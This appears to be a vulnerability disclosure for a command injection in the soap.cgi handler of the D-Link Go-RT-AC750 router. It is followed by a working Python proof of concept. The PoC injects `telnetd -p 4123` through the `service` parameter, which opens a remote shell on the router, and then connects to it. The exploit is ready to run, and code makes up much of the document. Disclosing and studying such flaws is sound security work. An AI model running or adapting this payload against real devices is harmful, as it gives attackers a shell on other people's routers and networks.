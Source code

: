 # Go-RT-AC750 Command Injection Vulnerabilit
## General Information
Vendor: D-Link

Affected Product: Go-RT-AC750

Firmware version: revA_v101b03

Vendor Homepage: https://www.dlink.com/en/consumer

## Vulnerability description
This vulnerability is found in function `soapcgi.main`. The function first try to get pointer to the `service` parameter in url and store it in `v14`:
![](assets/IMG_1.png)
![](assets/IMG_2.png)
Later, the parameter is joined into the format string via `sprintf` function and stored in to string `byte_435CD0`, which is used as the argument of the `system` function, causing the command injection. 
![](assets/IMG_3.png)

## PoC

```python
from socket import *
from os import *
from time import *

request = b"POST /soap.cgi?service=&&telnetd -p 4123& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
sleep(10)
system('telnet 192.168.0.1 4123')

```
![](assets/poc.png)




